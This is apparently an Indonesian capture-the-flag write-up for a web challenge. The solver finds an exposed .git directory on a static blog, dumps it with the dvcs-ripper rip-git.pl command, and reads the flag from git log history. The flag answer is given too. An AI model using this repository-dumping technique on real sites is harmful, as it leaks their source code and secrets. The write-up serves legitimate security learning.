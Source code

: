 Deskripsi soal:
<pre>
I stumbled across this kinda oldskool blog. I bet it is unhackable, I mean, there's only static HTML. 
https://0ldsk00lblog.ctf.internetwache.org/.
</pre>

<h3>Solved by snoww0lf</h3>

Ini adalah soal web yang cukup mudah, jika kita perhatikan sekilas ini hanyalah sebuah web statis yang menurut saya tidak memiliki keistimewaan. Namun beberapa konten di situs tersebut memberikan beberapa clue yakni "All people are talking about a tool called 'Git'. I think I might give this a try.", nampaknya saat web ini dideploy mereka sengaja tidak menghapus direktori ".git". Untuk itu saya coba untuk mengakses https://0ldsk00lblog.ctf.internetwache.org/.git/ dan didapatkan 403 Forbidden, ini menandakan direktori tersebut tersedia.

Tahap berikutnya ialah melakukan cloning git tersebut, disini saya menggunakan "dvcs-ripper" yang dapat didownload disitus berikut ini https://github.com/kost/dvcs-ripper lalu menjalankan dan mengeksekusinya melalui console.

```bash
./rip-git.pl -s -v -u https://0ldsk00lblog.ctf.internetwache.org/.git/
```

Setelah berhasil di-clone maka , saatnya untuk mengecek log terakhir dari hasil cloning tadi di folder ".git", dengan menggunakan perintah "git log -p" ditampilkan beberapa output yang cukup menarik.

```html
commit 26858023dc18a164af9b9f847cbfb23919489ab2
Author: Sebastian Gehaxelt <github@gehaxelt.in>
Date:   Fri Jan 22 02:57:44 2016 +0100

    Added another post

diff --git a/index.html b/index.html
index 91f09a7..5508adb 100644
--- a/index.html
+++ b/index.html
@@ -3,12 +3,21 @@
        <title>0ldsk00l</title>
 </head>
 <body>
+       <h2>2000</h2>
+       <p>
+               Oh, did I say that I like kittens? I like flags, too: IW{G1T_1S_4W3SOME}
+       </p>
+
+       <h2>1990-2015</h2>
+       <p>
+               Hmm, looks like totally forgot about this page. I should start blogging more often.
+       </p>
 
        <h2>1990</h2>
        <p>
                I proudly present to you the very first browser for the World Wide Web. Feel free to use it to view my awesome blog.
        </p>
-       
+
        <h2>1989</h2>
        <p>
                So, yeah, I decided to invent the World Wide Web and now I'm sitting here and writing this. 
```

Flag: <b>IW{G1T_1S_4W3SOME}</b>
